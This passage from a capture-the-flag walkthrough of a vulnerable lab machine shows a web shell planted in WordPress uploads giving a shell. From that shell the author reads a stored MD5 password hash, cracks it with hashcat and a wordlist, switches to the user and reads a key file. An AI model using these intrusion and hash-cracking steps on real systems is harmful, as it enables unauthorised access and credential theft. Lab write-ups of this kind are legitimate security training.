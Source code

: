 When we visite the URL [http://192.168.1.25/wp-content/uploads/2021/01/shell.php](http://192.168.1.25/wp-content/uploads/2021/01/shell.php), we have a shell:

![reverse-shell](img/reverse-shell.png)


### User (`robot`)

```console
daemon@linux:/opt/bitnami/apps/wordpress/htdocs/wp-content/uploads/2021/01$ 
daemon@linux:/home$ ls
robot
daemon@linux:/home$ cd robot
cd robot
daemon@linux:/home/robot$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat password.raw-md5cat password.raw-md5robot:c3fcd3d76192e4007dfb496cca67e13b
```

#### Cracking MD5 using hashcat

```bash
$ hashcat -m 0 files/password.raw-md5 /usr/share/wordlists/rockyou.txt
#...
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
#...
```

Now that we have his password, we can get `key-2-of-3.txt`'s content:

```console
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$ 
```
